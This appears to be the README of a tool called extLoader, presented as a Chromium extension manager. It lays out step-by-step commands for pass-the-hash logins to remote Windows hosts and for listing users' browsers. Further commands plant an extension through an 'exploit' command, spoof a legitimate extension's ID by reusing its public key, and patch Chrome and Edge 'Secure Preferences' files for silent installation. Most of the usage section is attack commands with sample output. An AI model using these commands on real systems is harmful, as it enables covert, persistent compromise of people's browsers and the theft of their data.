# extLoader

A small toolkit for managing and deploying Chromium extensions.

## Installation

### Direct install (pipx)

```bash
pipx install .
extloader --help
```

> Use `pipx` for an isolated install targeting Python 3.10+.

### Development setup (uv)

```bash
uv venv
source .venv/bin/activate
uv pip install -e .
```

## Authentication Options
- Password: `-p/--password`
- Hash: `-H/--hash` (LM:NT format or just NT)
- Domain: `-d/--domain` (defaults to WORKGROUP)

## Common Parameters
- `-t, --target`: Target IP/hostname
- `-u, --username`: Username
- `-i, --index`: User index from check command
- `--debug`: Enable debug logging

## Usage

Here's a step-by-step example of deploying an extension:

1. First, check available targets:

```bash
# This will list available users and browsers
extloader check -t 192.168.1.100 -u admin -H aad3b435b51404eeaad3b435b51404ee:ntlm_hash -d corp.local

┏━━━━━━━━┳━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Index  ┃ Browser         ┃ User (SID)                                                   ┃
┡━━━━━━━━╇━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│   1    │ Chrome          │ john.doe (S-1-5-21-4196007090-2879228606-3183820935-1122)    │
│   2    │ Microsoft Edge  │ john.doe (S-1-5-21-4196007090-2879228606-3183820935-1122)    │
└────────┴─────────────────┴──────────────────────────────────────────────────────────────┘
```

> When running exploit on a different machine, always run the `check` command before to refresh the context (`available_targets.json`).

2. Prepare the manifest (sign or spoof an ID):

```bash
# Create a deterministic crx_id by adding a key to the manifest.json
extloader sign --extension ./my-extension
```

> To spoof an existing extension ID, skip the command above and set the manifest
> `key` to the base64 public key of the extension you are mimicking. Reusing that
> key keeps the CRX ID unchanged.

3. Deploy the extension:

```bash
# Deploy to user index 1 (Chrome of john.doe)
extloader exploit -t 192.168.1.100 -u admin -H ntlm_hash -i 1 --extension ./my-extension
```

4.(Alternative) Package for manual deployment:

```bash
# Bundle the signed extension with the captured Preferences file
extloader package --prefs-file "Preferences" --extension-dir ./my-extension --target-dir "C:\\Users\\Public"

# This creates a ZIP containing:
# - Signed extension files
# - Updated preferences files
# - Deployment instructions
```

> `--prefs-file` expects the browser profile preferences you backed up (Chrome/Edge store them as `Secure Preferences`, other Chromium browsers use `Preferences`). The loader copies it, patches it, and includes both the modified and untouched versions in the package.

```text
├── extension/
│   └── chrome-mv3/
├── preferences/
│   ├── brave/
│   ├── chrome/
│   ├── chromium/
    [...]
└── info.json
```

5. Restore original preferences if needed:

```bash
# Restore original preferences for user index 1 (need check command to get the correct context)
extloader restore -t 192.168.1.100 -u admin -H ntlm_hash -i 1 -f ./backup_preferences
```

## TODO
- Kerberos support
- nxc module
- Adapt `package` workflow for Linux
- Adapt `package` worflow for macOS
